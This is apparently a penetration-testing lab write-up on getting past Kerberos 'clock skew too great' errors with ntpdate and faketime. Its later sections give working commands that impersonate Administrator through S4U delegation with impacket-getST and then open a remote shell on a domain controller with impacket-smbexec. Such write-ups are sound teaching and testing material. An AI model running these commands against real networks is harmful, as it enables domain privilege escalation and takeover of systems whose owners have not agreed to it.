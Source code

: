 <div class="banner">
    <div class="ads">
        <span></span>
        Get Free - Docs template
    </div>
    <h1>
        <span>¿By Vishok - Hacking Pentesting?</span>
        Clock Skew Too Great
    </h1>
</div>

####
####
## Bypassing Kerberos Time Verification
### Clock skew too great:
**Kerberos** is a network authentication protocol that uses encrypted tickets to verify identities in distributed systems. One of its fundamental security measures is **strict time synchronization** between clients and servers.
####
<div class="tip">

> Is time to perfom a deep analysis to fixed this error. 
</div>

####
```ruby
Kerberos(Clock Skew Too Great)
```
####
Occurs when there's a time difference greater than **5 minutes** (by default) between the local clock and the DC[*Domain Controller*]. This protection prevents replay attacks where an attacker might attempt to reuse old tickets. In compromised environments or during penetration testing, this mechanism can block valid TGT [*Ticket Granting Ticket*] acquisition, preventing access to resources.
####
####
####
## Solution using ntpdate
### Ntpdate:
The **ntpdate** command is a utility for setting and synchronizing the date and time of a computer system to match that of a reliable NTP [*Network Time Protocol*] server. By ensuring the system clock is accurate, ntpdate helps maintain system logs, schedule tasks, and ensure time-sensitive operations run effectively. But this protocol or service can not work, installed or available to distribution that you are using.
####
```ruby
sudo systemctl status systemd-timesyncd          
    Result ->
        Unit systemd-timesyncd.service could not be found.
```
####
Synchronizing a computer internal clock is crucial in maintaining synchronization across clusters databases, and logging services. When systems operate on different times, anomalies may occu  to data corruption or erroneous log entries. Using sudo ntpdate host, an administrator can  computer clock adheres to a globally accepted time standard provided by a specific host stron or NTP server.
####
```ruby
ntpdate coloso.local
    Result ->
        2025-05-06 15:12:02.237340 (-0700) +3181.036456 +/- 0.059572 coloso.local 10.10.11.51 s1 no-leap
        CLOCK: step_systime: Operation not permitted
```
####
Under certain conditions, it might be necessary to enforce an instantaneous time adjustment rather than gradual
syncing, for example avoiding time make use **slewed**, **settimeofday**.
####
```ruby
ntpdate -b coloso.local
```
####
In many cases de the speed of the internet play a crucial role when you try to syncronize against a Domain Controller, in very useful to have so kwoledge in automation programing lenguajes.
####
<div class="tip">

> Is time to craft our custom script to send a **multiple** syncronizing attempt request.
</div>

####
```ruby
for x in $(seq 1 10); do sudo ntpdate coloso.local; done
```
####
####
####
## Solution using faketime
### Faketime:
The **faketime** tool intercepts system time-related calls, allowing applications to be *FOOLED* about the current time, we can use this to bypass the **Kerberos time verification** in **impacket** tools against a Windows System Operation that running over a Domain Controller.
####
First we obtain the exact time from the Domain Controller via SMB, since this protocol doesn't have the same time restrictions as Kerberos and then we use faketime with the obtained time to generate our TGT. This step generates a `.ccache` file with a valid Kerberos ticket, synchronized with the *DC* time.
####
| Get date commands | Description |
| ----- | ----- |
| date /t | Displays only the current date | 
| time /t | Displays only the current time |
| date | Displays and allows you to modify the date |
| Get-Date | Displays full date and time |
| Get-Date -Format "dd/MM/yyyy" | Custom output date | 
| Get-Date -Format "HH:mm:ss" | Hour in 24h format |
| (Get-Date).DayOfWeek | Day of the week |
####
Once we obtain the time of the DC or Windows, we must to pass that time to **faketime**:
####
```ruby
date
    Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

faketime "2025-05-06 15:07:50"
```
####
That command is very important that was executed in the same line or in the same command when you try to connect or get A *TGT* ticket: `faketime - impacket-getST`.
####
<div class="warning">

> The **faketime** command must be added in the same line without use **pipes**, **xargs** etc.
</div>

####
So if we want to get a TGT, we must to execute the next command:
####
```ruby
faketime "2025-04-19 21:24:36" impacket-getST -spn 'cifs/coloso.local' -impersonate Administrator -dc-ip 10.10.11.174 'coloso/vishok$:vishok'
    Result ->
        [+] Getting TGT for user
        [+] Impersonating Administrator
        [+]     Requesting S4U2self
        [+]     Requesting S4U2proxy
        [+] Saving ticket in Administrator.ccache
```
####
The `faketime "2025-04-19 21:24:36" impacket-getST` is in the same line, both are different comands. Furthermore, the second command will haven't a highlight color, but this is normal, don't worry, the second command will be executed.
####
####
####
## Technical Deep Dive: faketime mechanics
### Deep Dive:
**Faketime** works by intercepting system calls related to time through *LD_PRELOAD*, a Linux mechanism that loads libraries before others. The *LD_PRELOAD* variable allows to paths to libraries which are to be loaded before any other libraries are loaded. What’s important, the  symbols e.g. functions contained in the preloaded libraries take precedence over the symbols from libraries loaded afterwards.
####
When applications like **impacket-getST** make system calls to check the current time like `time()`, `gettimeofday()`, or `clock_gettime()`, these calls are redirected to libfaketime instead of the standard C library.
####
<div class="img">
    <img src="/machines/public/clockskew/2.png" loading="lazy" decoding="async" />
</div>

####
####
####
## Final configuration
### KRB5CCNAME:
To use the generated ticket, we export it as an environment variable this tells Impacket tools where to find our Kerberos credentials. Finally we execute the target command with the spoofed time:
####
```ruby
date
Result -> 
        Tuesday, May 6, 2025 3:07:50 PM

KRB5CCNAME=Administrator.ccache faketime "2025-04-19 21:30:08" impacket-smbexec -dc-ip 10.10.11.174 -no-pass -k coloso/administrator@coloso.local
```
####
How you can see, in all moment is necessary use the **faketime**.